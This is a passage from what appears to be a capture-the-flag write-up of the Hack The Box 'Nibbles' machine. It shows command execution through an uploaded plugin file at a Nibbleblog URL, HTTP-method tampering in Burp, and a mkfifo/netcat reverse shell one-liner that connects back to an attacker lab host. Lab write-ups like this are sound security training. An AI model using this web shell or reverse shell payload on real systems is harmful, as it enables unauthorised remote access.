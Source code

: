 `/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami`

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/nibbles/assets/images/8.png" >
</center>

Intercept through burp and change the http method,

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/nibbles/assets/images/9.png" >
</center>

## Shell as nibbler

In the POST method `cmd` query parameter given the reverse shell payload to get the connection back and it worked!!!

```payload
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.2 9001 >/tmp/f
```
